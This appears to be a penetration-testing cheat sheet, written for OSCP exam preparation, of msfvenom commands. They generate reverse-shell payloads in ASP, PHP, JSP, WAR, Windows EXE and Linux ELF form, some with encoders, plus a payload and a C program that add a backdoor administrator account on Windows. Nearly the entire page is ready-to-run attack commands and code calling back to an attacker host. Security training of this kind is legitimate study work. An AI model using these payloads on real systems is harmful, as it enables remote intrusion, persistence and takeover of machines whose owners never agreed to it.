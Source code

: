 ```yaml
---
description: Generate payload with MSFvenom
icon: shield-halved
---
```


# Generate Payload

### Listing

```bash
msfvenom -l payloads # Payloads
msfvenom -l encoders # Encoders
msfvenom -l platforms # Platforms
msfvenom -l formats # Formats
```

{% hint style="info" %}
**Note**: I created this page during my OSCP preparation. All payloads here are for gaining a reverse shell through Netcat, as Metasploit (or Meterpreter) is prohibited.
{% endhint %}

### Web Based Payload

ASP Payload

```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.1 LPORT=1337 -f asp > asuka.asp
```

PHP Payload

```bash
msfvenom -p php/reverse_php LHOST=<IP> LPORT=<PORT> -f raw > shell.php
echo "<?php" | cat - shell.php > temp && mv temp shell.php
```

JSP Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f raw > shell.jsp
```

WAR Payload

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -f war > shell.war
```

### Windows

Create User

```bash
msfvenom -p windows/adduser USER=attacker PASS=attacker@123 -f exe -o adduser.exe
```

Execute Command

{% code overflow="wrap" %}
```bash
# x86
msfvenom -a x86 --platform Windows -p windows/exec CMD="calc.exe" -e x86/shikata_ga_nai -f exe -o payload.exe
# x64
msfvenom -a x64 --platform Windows -p windows/x64/exec CMD="calc.exe" -f exe -e x64/xor_dynamic -o payload-x64.exe
```
{% endcode %}

Reverse Shell

{% code overflow="wrap" %}
```bash
# x86
msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=4443 -f exe -e x86/shikata_ga_nai -o reverse86.exe
# x64
msfvenom --payload windows/x64/shell_reverse_tcp LHOST=tun0 LPORT=4443 --format exe --encoder x64/xor_dynamic --out reverse64.exe
```
{% endcode %}

### Linux

{% code overflow="wrap" %}
```bash
# x86
msfvenom  -p linux/x86/shell_reverse_tcp LHOST=tun0 LPORT=1337 -e x86/shikata_ga_nai -f elf -o asuka-x86.elf
# x64
msfvenom -a x64 --platform linux -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=1337 -e x64/xor_dynamic -f elf -o asuka-64.elf
```
{% endcode %}

### MSFvenom Payload Creator (MSFPC)

* [https://github.com/g0tmi1k/msfpc](https://github.com/g0tmi1k/msfpc)

### Add Windows User

**adduser.c**

{% code overflow="wrap" %}
```c
#include <stdlib.h>

int main ()
{
	int i;
	i = system ("net user admoon Linuxsec#1337 /add");
	i = system ("net localgroup administrators admoon /add");

		return 0;
}
```
{% endcode %}

Compile:

{% code overflow="wrap" %}
```powershell
x86_64-w64-mingw32-gcc adduser.c -o adduser.exe
```
{% endcode %}

